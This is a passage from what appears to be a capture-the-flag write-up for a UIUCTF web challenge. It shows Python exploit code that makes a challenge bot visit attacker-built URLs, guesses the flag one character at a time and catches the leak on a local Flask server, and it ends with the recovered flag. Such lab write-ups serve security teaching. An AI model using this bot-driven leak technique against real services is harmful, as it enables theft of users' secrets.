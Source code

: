 ```python

def send_bot():
    global condition
    for char in char_list:
        if condition:
            bot = remote(bot_url, bot_port, level='error' )
            url = poc_url + FLAG + char.encode('utf-8')

            #log.info(f'Send url : {url}')
            sleep(1)
            bot.sendlineafter(b'Please send me a URL to open.\n', url)
        else:
            exit(0)

def run_flask():
    app.run(host="0.0.0.0", port=9999)

if __name__ == '__main__':
    t1 = Thread(target=run_flask)
    t2 = Thread(target=send_bot)

    t1.start()
    t2.start()
```
The exploit code is as above. So I'll execute an exploit code!

![image](https://user-images.githubusercontent.com/49112423/128597089-6d2f7f9e-b188-4b1e-9ea6-5bd63553a072.png)

![image](https://user-images.githubusercontent.com/49112423/128597208-416e8fdc-9e0d-471d-93df-0fb40b353f8f.png)

(skip..)

![image](https://user-images.githubusercontent.com/49112423/128597345-a635ec41-3e60-4fa2-b77c-658cacf3104d.png)

Success! I got the flag :) 

```plaintext
FLAG : uiuctf{y0u_m4y_w4nt_2_d3let3_y0ur_gh_p4g3s_s1t3_or_r1sk_0thers_d01ng_4_crtsh_lo0kup}
```
